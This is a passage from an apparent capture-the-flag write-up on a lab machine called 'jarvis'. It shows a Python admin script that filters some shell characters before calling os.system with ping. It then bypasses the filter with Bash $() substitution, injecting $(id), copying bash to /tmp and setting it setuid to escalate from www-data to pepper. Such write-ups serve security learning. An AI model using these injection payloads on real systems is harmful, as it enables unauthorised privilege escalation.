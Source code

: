 ```shell
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.056 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.044 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.058 ms
```

**Source code:**
```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
[...]
if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
    [...]
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    [...]
```

In here, we can see that our input will be parsed to `os.system('ping <command>')`. However, it'll filter the `forbidden` characters first, if the input contains a forbidden character, it'll just exit the program.

With that said, it's still vulnerable to **OS command injection**!

**In Bash, we can use `$(<command>)` to run arbitrary commands!**
```
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(id)
ping: groups=1000(pepper): Temporary failure in name resolution
```

**Nice! That being said, we can escalate our privilege from `www-data` to `pepper`!**
```shell
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
[...]
Enter an IP: $(cp /bin/bash /tmp/pepper_bash)
[...]
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
[...]
Enter an IP: $(chmod +s /tmp/pepper_bash)
[...]
```
